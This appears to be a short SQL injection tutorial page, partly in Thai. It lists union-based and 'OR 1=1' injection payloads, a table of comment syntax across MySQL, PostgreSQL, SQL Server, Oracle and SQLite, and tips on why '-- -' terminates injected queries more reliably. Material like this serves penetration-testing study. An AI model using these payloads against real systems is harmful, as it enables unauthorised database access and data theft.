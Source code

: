 ### **Union-based:**
```sql
' UNION SELECT NULL,version()-- 
' UNION SELECT 1,2,3/*
```

## **Database Compatibility Table:**

| Comment Type | MySQL | PostgreSQL | SQL Server | Oracle | SQLite |
|-------------|--------|------------|------------|--------|--------|
| `--` | ✅ | ✅ | ✅ | ✅ | ✅ |
| `/* */` | ✅ | ✅ | ✅ | ✅ | ✅ |
| `#` | ✅ | ❌ | ❌ | ❌ | ❌ |
| `/*!` | ✅ | ❌ | ❌ | ❌ | ❌ |
| `REM` | ❌ | ❌ | ❌ | ✅ | ❌ |
| Nested `/* */` | ❌ | ✅ | ❌ | ❌ | ❌ |

รูปแบบ comment ทั้งหมดที่ใช้ได้ในฐานข้อมูลต่างๆ 

นี่คือความแตกต่างระหว่าง `--` และ `-- -`:

## **`--` (Double Dash)**

### **ปัญหาที่พบ:**
```sql
-- ❌ อาจไม่ทำงานในบางกรณี
' OR 1=1--
' OR 1=1--'remaining_code'
```

**เหตุผล:**
1. **SQL Standard** กำหนดให้ต้องมี space หลัง `--`
2. **Parser Strict** - บาง DBMS ตีความเข้มงวด
3. **URL Encoding Issues** - space อาจหายระหว่างทาง

### **เมื่อไหร่ที่ใช้ได้:**
```sql
-- ✅ ใช้ได้เมื่อมี space ต่อท้าย
' OR 1=1-- 
' OR 1=1--[space]
```

## **`-- -` (Double Dash Space Dash)**

### **ข้อดี:**
```sql
-- ✅ ทำงานได้ทุกกรณี
' OR 1=1-- -
' OR 1=1-- -anything_here_ignored
```
